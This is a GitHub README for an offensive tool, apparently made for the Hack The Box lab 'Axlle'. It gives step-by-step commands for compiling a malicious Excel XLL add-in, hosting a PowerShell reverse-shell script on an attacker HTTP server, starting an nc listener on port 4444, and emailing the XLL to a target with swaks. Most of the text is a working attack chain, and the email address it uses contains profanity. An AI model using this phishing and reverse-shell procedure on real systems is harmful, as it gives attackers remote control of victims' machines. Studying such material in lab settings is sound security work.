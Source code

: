 # xll_windows_reverse_shell
xll windows reverse shell



### In your Attacker (Kali) machine:
```
git clone https://github.com/n3rdh4x0r/xll_windows_reverse_shell.git
```
1. Update the `revsh.ps1`
2. create python http server 
```
python3 -m http.server 9999
```

### In your Attacker (Windows) machine:

1. Move `notpadXLL.c` to your windows attacker machine and update the `notpadXLL.c` accordingly.
3. Open `x64 Native Tools Command Prompt for VS 2022`
4. run below command to genarte `notepad.xll`
```
cl.exe /LD notepadXLL.c /link /out:notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/fa052809-575a-480f-be6d-0ba6b7e2dde0)

5. move this `notepad.xll` to your Kali machine

### In your Kali Machine

1. download `swaks`
```
 curl -O https://jetmore.org/john/code/swaks/files/swaks-20240103.0/swaks
```

2. configure nc listner

```
nc -nlvp 4444
```

3. Use `swaks` to send an email with notepad.xll attached:
```
./swaks --to accounts@axlle.htb --from ihatethisbox@fuckhtb.htb --server 10.10.11.21 --port 25 --header "Subject: test" --body "test" --attach @notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/e0c783a7-47ba-4a05-95aa-8e8c29ce0791)

